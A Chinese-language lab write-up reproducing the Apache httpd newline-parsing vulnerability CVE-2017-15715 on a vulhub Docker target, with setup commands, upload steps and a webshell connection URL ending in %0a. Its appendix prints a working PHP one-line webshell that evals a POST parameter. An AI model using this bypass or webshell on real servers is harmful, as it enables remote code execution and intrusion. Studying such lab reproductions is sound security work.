

# 一、概述
CVE-2017-15715 是指Apache HTTPD解析`PHP`的一个漏洞。是由于HTTPD Server在解析`PHP`时。`exp.php\x0A`将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。

# 二、影响版本
* 2.4.0~2.4.29版本

# 三、靶场复现
* 开始搭建靶场，这里我使用`vulhub`的靶场线下搭建
``` linux
root@wq:/home/wq/vulhub-master/httpd/CVE-2017-15715# ls
1.png  2.png  3.png  docker-compose.yml  Dockerfile  index.php  README.md
root@wq:/home/wq/vulhub-master/httpd/CVE-2017-15715# pwd
/home/wq/vulhub-master/httpd/CVE-2017-15715
root@wq:/home/wq/vulhub-master/httpd/CVE-2017-15715# docker-compose build
root@wq:/home/wq/vulhub-master/httpd/CVE-2017-15715# docker-compose up -d
Creating network "cve-2017-15715_default" with the default driver
Creating cve-2017-15715_apache_1 ... done
CONTAINER ID   IMAGE                   COMMAND                CREATED         STATUS         PORTS                                   NAMES
729352e8049c   cve-2017-15715_apache   "apache2-foreground"   7 seconds ago   Up 6 seconds   0.0.0.0:8080->80/tcp, :::8080->80/tcp   cve-2017-15715_apache_1
```
* 靶场验证：

  

# 四、漏洞发现过程
* 备注：此过程有部分的针对性，只作为参考使用
* 找到文件上传位置，正常上传`txt`文件
  
* 开始上传PHP木马文件, 上传失败
  
  
* 查看server服务版本信息
  
* 猜测具有`PHP`解析问题，即`CVE-2017-15715`，并开始抓包分析

# 五、漏洞验证
* 观察靶场内的是否上传成功，使用工具为`BP`进行抓包重放
  
  
  
  
  
  
  
  
* 正常请求自己已经上传成功的PHP木马文件
  
* 通过中国蚁剑尝试连接`Webshell`，连接地址为：`http://192.168.10.134:8080/Upload.php%0a`
  
  
* 进入后台查看文件，发现文件确实存在
  

# 六、附录：
* 我的Webshell php一句话木马
```php
<?php
    $a=$_POST['H'];
    eval("$a");
?>  
```

# 七、总结
Apache httpd 换行解析漏洞主要存在与apahce 2.4版本